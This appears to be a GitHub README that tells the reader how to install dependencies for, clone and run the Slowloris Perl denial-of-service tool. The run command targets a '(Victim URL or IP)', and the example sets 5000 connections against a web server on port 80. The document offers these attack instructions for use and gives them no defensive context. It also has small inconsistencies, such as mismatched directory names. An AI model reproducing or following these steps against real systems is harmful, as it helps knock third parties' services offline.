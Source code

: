**README**

How use Slowloris

Requirements:
- sudo apt-get update  
- sudo apt-get install perl
- sudo apt-get install libwww-mechanize-shell-perl
- sudo apt-get install perl-mechanize

Get Slowloris File:
```
1) Open Terminal
   $> cd /home
2) Download slowloris.pl
   # $home/ git clone https://github.com/Amarudin2019/slowloris.pl.git
3) Choose the directory where the file is downloaded
   # $home/ cd slowloris.pl
4) Run application
   # $home/slowlores.pl/ perl slowloris.pl -dns (Victim URL or IP) -options
   Example:
   # $home/slowlores.pl/ perl slowloris.pl -dns 192.168.100.19 -port 80 -timeout 20 -num 5000 -cache
```
Done
